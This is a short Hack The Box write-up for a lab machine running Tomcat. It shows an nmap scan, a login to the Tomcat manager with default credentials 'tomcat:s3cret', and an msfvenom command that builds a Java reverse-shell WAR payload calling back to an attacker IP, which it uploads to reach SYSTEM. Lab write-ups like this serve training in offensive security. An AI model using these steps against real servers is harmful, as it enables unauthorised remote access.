 # Box 



![](img/Pasted%20image%2020210821113431.png)

https://app.hackthebox.eu/machines/144


# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User & Root](#user--root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.95 10.10.10.95
```

![](img/Pasted%20image%2020210821113612.png)

There is a tomcat running on port 8080.

![](img/Pasted%20image%2020210821114015.png)

Well it is basically the default page. From my previous experience I know you can upload a shell if you are a manager of the application. Going on the "Manager app", you will be prompt for credentials. I tried default one `tomcat:s3cret` and it worked.

![](img/Pasted%20image%2020210821114321.png) 

## Exploitation

Now we can upload a malicious war file using `msfvenom`.

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.13 LPORT=1234 -f war -o payload.war
```

Upload it.

![](img/Pasted%20image%2020210821114524.png)

## Post-Exploitation
### User & Root

Well, we are authority system.

![](img/Pasted%20image%2020210821114542.png)